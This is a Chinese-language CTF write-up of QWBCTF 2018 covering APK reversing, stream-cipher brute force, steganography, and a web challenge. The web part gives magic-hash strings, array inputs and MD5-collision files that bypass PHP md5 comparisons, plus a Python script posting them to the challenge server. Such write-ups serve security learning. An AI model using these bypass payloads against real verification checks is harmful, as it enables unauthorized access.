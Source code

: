 ```yaml
---
layout:     post
title:      "QWBCTF 2018 Writeup"
subtitle:   "QWB{xxxxxxxxxxxxx}"
date:       2018-03-26 22:00 +0800
author:     "gsfish, ThTsOd, ydh"
header-img: "img/post-bg-hacker.jpg"
tags:
    - CTF
---
```


# Reverse

## 0x00 simplecheck

下载下来发现是个 zip 文件，打开后发现是 apk，用 jeb 载入并反编译

![01.png](/img/qwbctf-2018-writeup/01.png)

发现 `a` 是验证函数，跟入

![02.png](/img/qwbctf-2018-writeup/02.png)

转成 C 语言，各个位独立，暴力解出 flag

![03.png](/img/qwbctf-2018-writeup/03.png)


# Crypto

## 0x01 streamgame1

根据 `R=int(flag[5:-1],2)` 以及 `len(flag)==25` 推测 flag 为 19 个二进制位，暴力解出 flag 即可

![04.png](/img/qwbctf-2018-writeup/04.png)

## 0x02 streamgame2

和上题一样，根据 `R=int(flag[5:-1],2)` 以及 `len(flag)==27` 推测 flag 为 21 个二进制位，暴力解出 flag 即可

![05.png](/img/qwbctf-2018-writeup/05.png)

## 0x03 streamgame4

和上题一样，根据 `R=int(flag[5:-1],2)` 以及 `len(flag)==27` 推测 `flag` 为 21 个二进制位，这里只验证 key 前 16 个字节，暴力解出 flag 即可

![06.png](/img/qwbctf-2018-writeup/06.png)


# Misc

## 0x04 welcome

下载下来发现是 dib 文件，用 16 进制编辑器打开，发现前 2 个字节是 `BM` 重命名为 bmp 后用 StegSolve 打开。用 Stereogram Solver 偏移量 `offset` 为 80 后发现 flag

![07.png](/img/qwbctf-2018-writeup/07.png)


# Web

## 0x05 Web 签到

第一关网页源码的提示人如下。可用 PHP 弱类型过掉，`param1=QNKCDZO`、`param2=s878926199a`：

```php
if($_POST['param1']!=$_POST['param2'] && md5($_POST['param1'])==md5($_POST['param2'])){
    die("success!");
}
```

第二关将等于换成了全等于，传进去一个数组即可，使 `md5()` 的结果为 `null`。`param1[]=123`、`param2[]=456`。

```php
if($_POST['param1']!==$_POST['param2'] && md5($_POST['param1'])===md5($_POST['param2'])){
    die("success!");
}
```

第三关网页源码如下。由于使用了强制类型转换，传递对象则会转换为对象名称，因此只能使用 MD5 相等的字符串。使用 fastcoll 根据同一个文件生成了两个内容有差异，但 MD5 相同的文件 f1、f2，使用文件的二进制内容作为 param1、param2 参数。

```php
if((string)$_POST['param1']!==(string)$_POST['param2'] && md5($_POST['param1'])===md5($_POST['param2'])){
    die("success!);
}
```

使用脚本如下：

```python
import requests
session = requests.Session()
step1 = session.post("http://39.107.33.96:10000", data={
	"param1": "QNKCDZO",
	"param2": "s878926199a"
})
step2 = session.post("http://39.107.33.96:10000", data={
    "param1[]": "123",
    "param2[]": "456",
})
step3 = session.post("http://39.107.33.96:10000", data={
	"param1": open('f1', 'rb').read(),
	"param2": open('f2', 'rb').read()
})
print(step3.content)
```
